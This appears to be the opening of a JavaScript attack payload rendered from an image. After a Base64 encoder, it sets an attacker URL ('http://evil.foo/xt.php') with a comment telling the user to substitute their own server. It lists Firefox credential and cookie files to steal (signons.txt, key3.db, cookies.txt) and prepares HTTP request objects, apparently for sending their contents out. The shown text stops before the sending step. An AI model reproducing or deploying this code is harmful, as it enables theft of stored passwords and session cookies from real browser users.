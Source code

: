     var keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";

    function encode64(input) {
       var output = "";
       var chr1, chr2, chr3;
       var enc1, enc2, enc3, enc4;
       var i = 0;

       do {
          chr1 = input.charCodeAt(i++);
          chr2 = input.charCodeAt(i++);
          chr3 = input.charCodeAt(i++);

          enc1 = chr1 >> 2;
          enc2 = ((chr1 & 3) << 4) | (chr2 >> 4);
          enc3 = ((chr2 & 15) << 2) | (chr3 >> 6);
          enc4 = chr3 & 63;

          if (isNaN(chr2)) {
             enc3 = enc4 = 64;
          } else if (isNaN(chr3)) {
             enc4 = 64;
          }

          output = output + keyStr.charAt(enc1) + keyStr.charAt(enc2) +
             keyStr.charAt(enc3) + keyStr.charAt(enc4);
       } while (i < input.length);

       return output;
    }
    // end of Base64 code from Tyler Akins -- http://rumkin.com

    // VARIABLE DECLARATIONS
    var attackersURL = "http://evil.foo/xt.php"; // replace URL value with your own!  for example http://ikwt.com/xt.php
    // interesting Mozilla Firefox files include cookies.txt, signons.txt, key3.db, bookmarks.bak
    var j=0, found=0;
    var strProfileContent, strFirefoxProfileLocation, strPayloadLocation, strProfileName, strHomeFolder;
    var file2steal, strFile2StealContent, strTmp;

    //alert(navigator.appName);

    // if IE
    if(navigator.appName=="Microsoft Internet Explorer")
    {
            var req = new ActiveXObject("Microsoft.XMLHTTP");
            var reqB = new ActiveXObject("Microsoft.XMLHTTP");
    }

    else
    {
            var req = new XMLHttpRequest();
            var reqB = new XMLHttpRequest();
    }
